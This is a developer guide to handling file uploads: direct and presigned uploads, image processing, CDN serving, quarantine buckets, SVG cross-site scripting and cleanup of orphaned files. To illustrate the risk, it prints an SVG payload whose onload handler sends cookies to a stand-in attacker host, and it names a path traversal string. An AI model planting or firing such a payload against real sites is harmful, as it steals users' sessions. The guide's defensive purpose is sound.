





# File Upload & Storage

## What Is It?

File upload and storage is how your app handles files that users send to you — profile pictures, documents, videos, spreadsheets, CSVs, whatever. It covers the entire journey: the user picks a file, it gets uploaded, processed (resized, scanned, transcoded), stored somewhere, and served back when needed. It sounds straightforward, but at scale it involves CDNs, object storage, access control, virus scanning, and cost management.

## Why Should You Care?

Almost every app eventually needs file uploads. Profile avatars, document attachments, image galleries, CSV imports, video uploads — they're everywhere. The naive approach (save files to your server's disk) works in development but falls apart in production. Files eat disk space, slow down your server, and become a single point of failure. Understanding the business and infrastructure patterns helps you build something that scales without burning money.

## How It Works (The Business Flow)

### Simple Upload Flow

1. User selects a file via `<input type="file">` or drag-and-drop
2. Client validates: Is the file type allowed? Is it under the size limit?
3. File is sent to the server (as `multipart/form-data`)
4. Server validates again: file type, size, content (don't trust the client)
5. Server saves the file to object storage (S3, GCS, Azure Blob)
6. Server stores the file URL/path in the database
7. File is served back to users via a CDN

### Direct Upload (Presigned URL)

For large files, you don't want to route through your server:

1. Client requests an upload URL from your server
2. Server generates a presigned URL from the storage provider (S3 presigned URL)
3. Client uploads directly to the storage provider using the presigned URL
4. Storage provider notifies your server when upload completes (or client confirms)
5. Server records the file metadata

**Why this matters:** Your server never handles the file bytes. No memory pressure, no bandwidth cost, no upload timeout issues.

### Image Processing

1. User uploads a photo (could be a 10MB JPEG from their phone)
2. System creates multiple versions: thumbnail (100x100), medium (800x600), large (1920x1080)
3. Format conversion: JPEG → WebP (smaller file size, better quality)
4. Metadata stripping: Remove EXIF data (which might contain GPS coordinates)
5. All versions stored in object storage, URLs recorded in database
6. Frontend requests the appropriate size based on context

### File Serving

1. File URL is typically a CDN URL (e.g., `cdn.yourapp.com/images/abc123.webp`)
2. CDN caches the file at edge locations globally
3. First request: CDN fetches from storage (origin). Subsequent requests: served from cache
4. Cache headers control how long files are cached
5. For private files: use signed URLs with expiration times

## Key Terms You'll Hear

| Term                 | What It Means                                                                                                        |
| -------------------- | -------------------------------------------------------------------------------------------------------------------- |
| **Object Storage**   | Cloud storage for files (S3, GCS, Azure Blob). Cheap, durable, scalable. Not a filesystem — stores objects with keys |
| **S3**               | Amazon Simple Storage Service — the most popular object storage. "S3-compatible" APIs are an industry standard       |
| **Bucket**           | A container in object storage. Like a top-level folder. You might have buckets for `uploads`, `avatars`, `documents` |
| **Presigned URL**    | A temporary URL that grants permission to upload or download a specific file. Expires after a set time               |
| **CDN**              | Content Delivery Network — distributes files globally. Users download from the nearest server                        |
| **MIME Type**        | The file type identifier (e.g., `image/jpeg`, `application/pdf`). Used for validation and serving                    |
| **Multipart Upload** | Uploading large files in chunks. Allows resume after failure                                                         |
| **Blob**             | Binary Large Object — the raw file data                                                                              |
| **EXIF Data**        | Metadata embedded in images (camera model, GPS location, timestamp). Privacy concern                                 |
| **Transcoding**      | Converting files from one format to another (video: MP4 to HLS, image: PNG to WebP)                                  |
| **Lifecycle Policy**     | Rules for automatically transitioning files between storage tiers or deleting old files                                  |
| **Storage Class**        | Different pricing/performance tiers (S3 Standard, S3 Infrequent Access, Glacier)                                         |
| **Quarantine Bucket**    | An isolated, non-public landing bucket where newly uploaded files sit until malware, magic-byte, and safety checks pass  |
| **Magic Bytes**          | The first few bytes of a file (e.g., `FF D8 FF` for JPEG, `89 50 4E 47` for PNG) that identify its true binary format    |
| **Content-Disposition**  | HTTP response header (`attachment` vs `inline`) that forces browsers to download a file rather than execute/render it    |
| **Sandbox Domain**       | A dedicated cookieless domain (e.g., `*-usercontent.com`) used to serve user files without exposing main-domain sessions |
| **Perceptual Hash (pHash)** | A fingerprint of an image's visual appearance used for deduplication and automated policy/CSAM screening              |

## Common Patterns

### Pattern 1: Server-Side Upload

File goes through your server to storage. Simple, works for small files.



**When it's used:** Small files (avatars, thumbnails), when you need to process files before storing.

**Trade-off:** Server becomes a bottleneck. Memory usage spikes during large uploads.

### Pattern 2: Direct Upload (Presigned URL)

Client uploads directly to storage. Your server only generates the upload URL.



**When it's used:** Large files, video uploads, any high-traffic app.

**Trade-off:** Slightly more complex client code. Need to handle upload confirmation.

### Pattern 3: Image Processing Pipeline

Upload triggers a processing pipeline that generates variants.



**When it's used:** Apps with lots of images (social media, e-commerce, real estate listings).

**Trade-off:** Async processing means variants aren't immediately available. Show a placeholder until processing completes.

### Pattern 4: On-the-Fly Transformation

Images are transformed at request time based on URL parameters. No pre-generated variants.

```
https://cdn.example.com/images/photo.jpg?w=200&h=200&fit=crop
```

**When it's used:** When you need many size variations or don't know sizes in advance. Cloudinary, imgix, Cloudflare Image Resizing.

**Trade-off:** First request is slow (transformation happens in real-time). CDN caches subsequent requests.

## Gotchas & Edge Cases

- **Never trust file extensions**: A `.jpg` file might actually be an executable. Validate MIME types by reading file headers (magic bytes), not just the extension.
- **File size limits**: Set limits at every level — client-side validation, server middleware, storage policy. A missing limit means someone uploads a 10GB file and crashes your server.
- **Filename sanitization**: User filenames can contain special characters, spaces, unicode, even path traversal attempts (`../../etc/passwd`). Generate your own filenames (UUIDs) and store the original name as metadata.
- **Virus scanning**: For user-uploaded documents, scan with an antivirus service before making them available. ClamAV is common for self-hosted, or use a cloud scanning service.
- **Storage costs add up**: A million users uploading 5MB each = 5TB. At $0.023/GB/month (S3 Standard), that's $115/month just for storage. Plus data transfer costs. Use lifecycle policies to move old files to cheaper tiers.
- **Orphaned files**: User uploads a file, then navigates away without saving the form. The file exists in storage but isn't referenced by anything. Run periodic cleanup jobs.
- **Private files**: Not everything should be publicly accessible. Medical records, financial documents, private photos need access control. Use signed URLs with short expiration.
- **Resumable uploads**: For large files over flaky connections, support resumable uploads. The TUS protocol is a standard for this.
- **Duplicate detection**: Users upload the same file multiple times. Hash files on upload and deduplicate to save storage.

## Industry War Stories & Non-Obvious Best Practices

### 1. Quarantine-to-Clean Bucket Promotion Pipeline

When you issue a presigned S3 upload URL, the client uploads raw bytes directly to cloud storage — completely bypassing your application servers. If your presigned URL writes directly into your public CDN-backed bucket, any attacker can request a presigned URL for `avatar.jpg`, upload a weaponized PDF exploit, macro-laced invoice, or illegal CSAM image, and immediately distribute that URL under your trusted domain before a background worker ever inspects it.

**Production Best Practice: Two-Bucket Quarantine Architecture**

Never allow clients to upload directly into a readable/servable bucket. Separate storage into an **Ingest Quarantine Bucket** (write-only for presigned URLs, zero public/CDN read access, strict 24-hour auto-expiration lifecycle rule) and a **Clean Production Bucket** (read-only via CDN/signed URLs, writeable only by the internal sanitizer worker).



Inside the **Sanitizer Worker**, every file must pass four gates before promotion:
1. **Magic-Byte & Polyglot Verification**: Ignore the client-supplied `Content-Type` and file extension. Inspect the leading file signature bytes (`FF D8 FF` for JPEG, `%PDF-` for PDF) and guard against decompression bombs ("zip bombs" or 100,000×100,000px "image bombs" that exhaust worker RAM when decoded).
2. **Asynchronous Malware Scanning**: Scan the object stream with ClamAV, AWS GuardDuty Malware Protection, or CrowdStrike before any internal user or customer can download it.
3. **Image Re-encoding & EXIF GPS Stripping**: Smartphone photos routinely embed `GPSLatitude`, `GPSLongitude`, home addresses, and camera serial numbers in EXIF metadata. Re-encoding images through `libvips` / `sharp` strips all metadata AND destroys steganographic or polyglot payloads hidden in trailing bytes.
4. **Perceptual Hashing (PhotoDNA / PDQ)**: Compute cryptographic (SHA-256) and perceptual hashes against known threat/CSAM databases before copying the sanitized asset to the **Clean Production Bucket** and updating the database status from `SCANNING` to `READY`.

### 2. Same-Origin SVG / HTML Upload XSS & Sandbox Domains

One of the most catastrophic vulnerabilities in web applications happens when user-uploaded files are served from the same origin (or parent domain) as the main application — e.g., serving uploads from `https://app.acme.com/uploads/diagram.svg` or `https://cdn.acme.com/...` when session cookies are scoped to `Domain=.acme.com`.

**Why SVG and HTML Uploads Are Stored XSS Bombs:**
An `.svg` file is a valid XML document that natively supports `<script>` tags and `onload` event handlers:
```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="fetch('https://evil.example/steal?c=' + document.cookie)">
  <circle cx="50" cy="50" r="40"/>
</svg>
```
If a victim clicks a direct link to `https://app.acme.com/uploads/diagram.svg` (so the browser navigates top-level to the SVG rather than rendering it inside an `` tag), the browser executes the embedded JavaScript **inside the `app.acme.com` origin** with full access to `localStorage`, session tokens, and authenticated API endpoints! Even without `.svg`, attackers can upload polyglot files that trigger browser MIME-sniffing if `X-Content-Type-Options: nosniff` is missing.

**Production Best Practice: Defense-in-Depth File Serving**
1. **Dedicated Cookieless Sandbox Domain**: Serve all user-generated content from a completely separate root domain — just like GitHub uses `githubusercontent.com`, Google uses `googleusercontent.com`, and Figma uses `figmausercontent.com`. Because it is a distinct eTLD+1, it never receives `acme.com` cookies and is isolated by the browser's Same-Origin Policy.
2. **Force `Content-Disposition: attachment` on Risky MIME Types**: Only allow safe raster image formats (`image/jpeg`, `image/png`, `image/webp`, `image/avif`) to be served `inline`. For SVGs, PDFs, HTML, XML, CSVs, and archives, force `Content-Disposition: attachment; filename="..."` so the browser downloads the file to disk instead of rendering it in a browser tab.
3. **Lock Down Response Headers**: Always attach `X-Content-Type-Options: nosniff` and `Content-Security-Policy: default-src 'none'; sandbox` on object storage / CDN responses so that even if a file is rendered inline, script execution is completely disabled.

### 3. Orphaned Upload Garbage Collection (Two-Phase `PENDING` → `ATTACHED` State Machine)

In modern rich-text editors (Notion, Linear, Slack, Jira) or multi-step forms, users drag-and-drop 5 screenshots into a draft comment, receive immediate image previews via presigned uploads, and then **close the browser tab without ever clicking "Submit"**. Or a user uploads an attachment, clicks Submit, and the database transaction fails due to a validation error.

**The Cost & Compliance Trap:** Without tracking upload lifecycle state, these "orphaned" objects accumulate forever in S3 (quietly inflating storage bills by terabytes) and violate GDPR/CCPA deletion guarantees because the files aren't linked to any parent record in your database. Conversely, you cannot just delete any unlinked S3 file younger than 5 minutes, because a user might still be typing a long blog post for 2 hours before clicking "Publish".

**Production Best Practice: Two-Phase Upload Ledger + S3 Lifecycle Prefixing**



1. **Phase 1 — Pre-Register in `upload_blobs` Before Issuing the Presigned URL**: When the client requests a presigned URL, insert a row into `upload_blobs (id, tenant_id, uploader_id, s3_key, status = 'PENDING', expires_at = NOW() + INTERVAL '24 hours')` and include the S3 object tag `upload_status=pending` in the presigned PUT signature constraints.
2. **Phase 2 — Atomic Promotion on Form Submission**: When the user submits the comment, product, or profile form, wrap the business write and `UPDATE upload_blobs SET status = 'ATTACHED', parent_type = 'comment', parent_id = ? WHERE id IN (...)` in the same database transaction, and asynchronously clear the `upload_status=pending` tag in S3.
3. **Automated Garbage Collection**: Configure a native **S3 Lifecycle Rule** that automatically deletes any object still carrying the tag `upload_status=pending` after 24 hours, paired with a nightly database cron job that marks expired `PENDING` rows as `EXPIRED`. Zero orphaned bytes survive past 24 hours, and long-running editor sessions up to 24 hours are never interrupted.

## Quick Reference

| File Type             | Best Approach                                    |
| --------------------- | ------------------------------------------------ |
| Small images (<5MB)   | Server-side upload + background processing       |
| Large images / videos | Direct upload (presigned URL) + async processing |
| Documents (PDF, DOCX) | Server-side upload + virus scan                  |
| Bulk CSV imports      | Direct upload + background job for processing    |
| User avatars          | Server-side upload + on-the-fly resize           |

| Storage Tier      | Use Case                  | Cost (S3, approx.) |
| ----------------- | ------------------------- | ------------------ |
| Standard          | Frequently accessed files | $0.023/GB/month    |
| Infrequent Access | Backups, old uploads      | $0.0125/GB/month   |
| Glacier           | Archival, legal retention | $0.004/GB/month    |

| Production Threat / Failure Mode        | Root Cause                                                | Defense-in-Depth Control                                                       |
| --------------------------------------- | --------------------------------------------------------- | ------------------------------------------------------------------------------ |
| Malware distributed via your CDN domain | Presigned URLs write directly to public bucket            | Quarantine bucket → magic-byte + ClamAV + EXIF strip → promote to Clean bucket |
| Stored XSS via uploaded `.svg` / `.html`| Serving user files from main app domain (`app.acme.com`)  | Serve from cookieless `*-usercontent.com` + `Content-Disposition: attachment`  |
| Home address leaked via user photo      | Smartphone JPEG preserves raw EXIF GPS coordinates        | Strip all EXIF/XMP metadata during `sharp` / `libvips` image re-encoding       |
| Terabytes of unbilled orphaned S3 files | Users close rich-text editor tab after uploading previews | Two-phase `PENDING` → `ATTACHED` ledger + 24h S3 tag expiration lifecycle rule |

